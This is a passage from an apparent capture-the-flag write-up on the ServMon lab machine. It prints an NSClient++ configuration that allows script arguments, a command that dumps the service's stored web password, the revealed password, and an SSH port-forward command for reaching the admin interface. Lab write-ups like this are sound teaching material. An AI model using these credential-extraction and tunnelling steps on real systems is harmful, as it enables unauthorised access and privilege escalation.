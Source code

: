 ```
ps1 = cmd /c echo If (-Not (Test-Path "scripts\%SCRIPT%") ) { Write-Host "UNKNOWN: Script `"%SCRIPT%`" not found."; exit(3) }; scripts\%SCRIPT% $ARGS$; exit($lastexit
code) | powershell.exe /noprofile -command -


; External scripts - A list of scripts available to run from the CheckExternalScripts module. Syntax is: `command=script arguments`
[/settings/external scripts/scripts]


; Schedules - Section for the Scheduler module.
[/settings/scheduler/schedules]

; Undocumented key
foobar = command = foobar


; External script settings - General settings for the external scripts module (CheckExternalScripts).
[/settings/external scripts]
allow arguments = true

nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT

nadine@SERVMON C:\Program Files\NSClient++>

```

We got the password nsclient++ : `ew2x6SsGTxjRwXOT`. To access the web page, we need using port forwarding using ssh

`ssh -L 9000:127.0.0.1:8443 nadine@10.10.10.184`

And open google chromium (note: some of the members at HTB forum, recommend to use those), but very slow. So we skipped using a chrome browser.

![07](/assets/images/htb-machine-servmon/07.png)
